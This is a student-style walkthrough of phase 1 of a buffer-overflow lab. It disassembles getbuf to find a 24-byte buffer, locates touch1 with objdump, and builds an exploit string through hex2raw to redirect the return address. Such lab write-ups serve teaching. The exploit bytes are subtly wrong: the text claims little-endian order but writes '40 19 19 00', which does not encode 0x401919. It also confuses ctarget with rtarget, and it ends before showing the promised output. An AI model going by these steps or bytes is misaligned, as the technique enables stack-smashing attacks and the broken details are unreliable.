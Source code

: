 
Phase 1 is the easiest of the 5. What you are trying to do is overflow the stack with the exploit string and change the return address of getbuf function to the address of touch1 function. You are trying to call the function touch1.

run ctarget executable in gdb and set a breakpoint at getbuf

```b getbuf```

Then disasemble the getbuf function
```disas```

Since the buffer size is a run time constant, we need to look at the disasembled code to figure it out.
```assembly
Dump of assembler code for function getbuf:
=> 0x0000000000401748 <+0>:	    sub    $0x18,%rsp
   0x000000000040174c <+4>:	    mov    %rsp,%rdi
   0x000000000040174f <+7>:	    callq  0x40198a <Gets>
   0x0000000000401754 <+12>:	    mov    $0x1,%eax
   0x0000000000401759 <+17>:	    add    $0x18,%rsp
   0x000000000040175d <+21>:	    retq   
End of assembler dump.
```

If you look at ```sub $0x18,%rsp```, you can see that 24 (0x18) bytes of buffer is allocated for getbuf.

Now you know the buffer size and you need to input 24 bytes of padding followed by the return address of the touch1 address.

To find the address the touch1, you need to get the dissasembled code for ctarget executable.

```objdump -d rtarget > rtarget_dump.s```

The above command will save the dissasembled code in file rtarget_dump.s open that file (I use vim) and find the touch1 function.

I found touch1 inside rtarget which looked like

```assembly
0000000000401919 <touch1>:
  401919:       48 83 ec 08             sub    $0x8,%rsp
  40191d:       c7 05 f5 3b 20 00 01    movl   $0x1,0x203bf5(%rip)        # 60551c <vlevel>
  401924:       00 00 00 
  401927:       bf ad 34 40 00          mov    $0x4034ad,%edi
  40192c:       e8 9f f3 ff ff          callq  400cd0 <puts@plt>
  401931:       bf 01 00 00 00          mov    $0x1,%edi
  401936:       e8 b7 05 00 00          callq  401ef2 <validate>
  40193b:       bf 00 00 00 00          mov    $0x0,%edi
  401940:       e8 0b f5 ff ff          callq  400e50 <exit@plt>
```
So it's address is at ```0x401919```

When you write the bytes, you need to consider the byte order. My system is a little-endian so the bytes go in reverse order.

Finally create a text file named phase1.txt which will look like below
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* the first 24 bytes are just padding */
40 19 19 00 00 00 00 00 /* address of touch1 */
```
Now you need to take this file and run it through the program hex2raw, which will generate raw exploit strings

```./hex2raw < phase1.txt > raw-phase1.txt```

Finally, you run the raw file

```./ctarget < raw-phase1.txt```

You will get something like below if your solution is right.
